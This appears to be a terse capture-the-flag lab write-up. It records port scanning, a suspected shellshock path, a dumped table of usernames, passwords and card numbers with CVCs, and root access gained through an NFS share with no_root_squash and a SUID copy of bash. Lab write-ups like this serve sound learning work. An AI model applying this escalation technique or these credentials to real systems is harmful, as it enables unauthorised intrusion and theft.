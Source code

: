 nmap

21
22
80

***
ftp
login disabled

***

http

Potentially risky methods: TRACE

/backups

/cgi-bin/ --> shellshock , ffuf for sh and other extention

potential user :
Paradox
elf
MuirlandOracle
james
NinjaJc01
Muir

comment found in index page : `<!-- 0.99999% is 5 nines, right? -->`


***


      Customer Name
Username
Password
Par. A. Doxx
paradox
ShibesAreGreat123
0day Montgomery
0day
OllieIsTheBestDog
Muir Land
muirlandoracle
A11D0gsAreAw3s0me
          1

  Credit card number
CVC
4111 1111 4555 1142
432
5555 3412 4444 1115
642
5103 2219 1119 9245
737
2

***

privs

SELinux disables

nfs
`/home/james *(rw,fsid=0,sync,no_root_squash,insecure)`

mount this nfs share with pivoting.

cp /bin/bash bash

give bash root:root
give premisiion 4777

./bash -p 

got root